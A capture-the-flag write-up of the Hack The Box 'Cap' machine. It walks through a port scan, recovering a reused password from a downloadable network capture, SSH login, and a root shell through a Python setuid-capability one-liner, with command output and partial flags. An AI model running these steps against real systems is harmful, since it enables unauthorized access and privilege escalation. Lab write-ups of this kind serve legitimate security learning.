 ```yaml
---
title: "[HTB - Easy] Cap"
description: "Writeup by jsthope"
published: 2023-09-08
tags: [Box, Easy]
type: post
category: HTB
image: ./cap.png
showTableOfContents: true
---
```


# nmap

First, we'll scan the open ports of the IP:

```zsh
┌─[eu-vip-23]─[10.10.14.5]─[htb-jsthope@htb-xbv1dyv8fx]─[~]
└──╼ [★]$ nmap 10.10.10.245
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-07 22:35 BST
Nmap scan report for 10.10.10.245
Host is up (0.18s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 8.69 seconds
```

# http

On the site, we notice we're logged in by default as the user "Nathan".
We then find that the site allows downloading network captures:
http://10.10.10.245/data/0

We download pcap number 0 and analyze it with Wireshark:
![pcap](./pcap.png)

We then find Nathan's password (used for FTP).

# ssh

Nathan's FTP password is the same as his SSH password:

```zsh
─[eu-vip-23]─[10.10.14.5]─[htb-jsthope@htb-xbv1dyv8fx]─[~]
└──╼ [★]$ ssh nathan@10.10.10.245
```

We then retrieve the user flag:

```zsh
nathan@cap:~$ ls
user.txt
nathan@cap:~$ cat user.txt
ebd67..bc21c
```

# privesc

We check for vulnerabilities related to capabilities:

```zsh
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

We can immediately see here that python3.8 is likely vulnerable to a setuid-type exploit.
You can find capability exploits on [gfobins](https://gtfobins.github.io/gtfobins/python/#capabilities):

```zsh
nathan@cap:~$ python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'

# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
```

We are indeed root!
All that remains is to retrieve the final flag:

```zsh
# cat /root/root.txt
0987..b266c
```
